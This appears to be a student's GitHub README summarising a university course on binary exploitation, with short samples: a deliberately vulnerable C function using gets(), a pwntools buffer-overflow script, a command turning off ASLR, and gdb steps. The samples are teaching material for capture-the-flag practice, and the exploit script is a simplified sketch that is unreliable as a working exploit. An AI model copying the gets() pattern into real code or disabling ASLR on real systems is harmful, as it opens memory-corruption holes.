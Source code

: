 # 🏴‍☠️ Hacking of C Programming and Unix Binaries  

## 📌 Overview  
As part of a **binary exploitation and reverse engineering course at the University of Maryland**, I performed **buffer overflow attacks, privilege escalation, and return-oriented programming (ROP) techniques** on **C binaries** across **32-bit and 64-bit Unix environments**. The project focused on **understanding memory corruption vulnerabilities and exploiting them to capture system flags**.  

---

## 🛠 Key Contributions  

- 🔍 **Performed buffer overflow attacks** to capture **flags encrypted in memory** of compiled C binaries.  
- 🏴‍☠️ **Executed binary exploitation across 32-bit and 64-bit Unix binaries**, bypassing **memory protections**.  
- ⚡ **Gained escalated privileges** through **stack manipulation techniques**, including **Return-Oriented Programming (ROP)**.  
- 🔄 **Analyzed and reversed C binaries** using **Ghidra**, identifying **vulnerable functions and memory structures**.  
- 🛡 **Implemented mitigations for common binary vulnerabilities**, such as **stack canaries and address space layout randomization (ASLR)**.  
- 🎯 **Successfully exploited binaries in pwndbg**, achieving **final privilege escalation and flag capture**.  

---

## 🛠 Tools & Technologies Used  

| Category                     | Tools & Technologies |
|------------------------------|----------------------|
| 🔍 Reverse Engineering       | Ghidra, Radare2 |
| 🏴‍☠️ Binary Exploitation    | pwntools, pwndbg |
| 📜 Memory Exploitation       | Buffer Overflows, ROP, Stack Smashing |
| 🔑 Privilege Escalation      | SUID Binaries, Stack Manipulations |
| 🛡 Security Bypasses         | ASLR, NX, Stack Canaries |
| 🎯 Capture The Flag (CTF)    | Custom Binary Exploits |

---

## ⚙️ Sample Exploits & Commands  

### 🔍 Finding a Buffer Overflow in a C Binary  
```c
#include <stdio.h>
#include <string.h>

void vulnerable() {
    char buffer[64];
    gets(buffer);
}

int main() {
    vulnerable();
    return 0;
}
```
🏴‍☠️ Exploiting Buffer Overflow to Overwrite Return Address
```python
from pwn import *

binary = ELF("./vulnerable_binary")
rop = ROP(binary)

payload = b"A" * 72  # Overflow buffer size
payload += rop.ret  # Return-oriented programming (ROP) technique

p = process(binary.path)
p.sendline(payload)
p.interactive()
```
🔑 Disabling ASLR for Easier Exploitation
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
📜 Debugging Binary with pwndbg
```bash
gdb -q ./vulnerable_binary
(gdb) start
(gdb) disassemble main
(gdb) run $(python3 exploit.py)
```

⸻

📋 Final Report & Evaluation

The project concluded with a comprehensive security analysis, detailing:

✅ Findings from binary exploitation, including buffer overflows, privilege escalation, and memory corruption vulnerabilities.
✅ Reverse engineering insights, analyzing function flow and security mechanisms in compiled C binaries.
✅ Exploit development techniques, showcasing ROP chains, stack smashing, and security bypasses.
✅ Mitigation strategies, suggesting stack canaries, ASLR enforcement, and secure coding practices.
✅ Final presentation & demonstration, proving successful binary exploitation leading to system flag capture.

⸻

🎤 Presentation & Impact

I compiled the findings and exploitation techniques into a technical penetration testing report, outlining real-world memory corruption vulnerabilities and their mitigations.

⸻

💬 Have Questions?

Feel free to reach out or open an issue! 🚀🔐

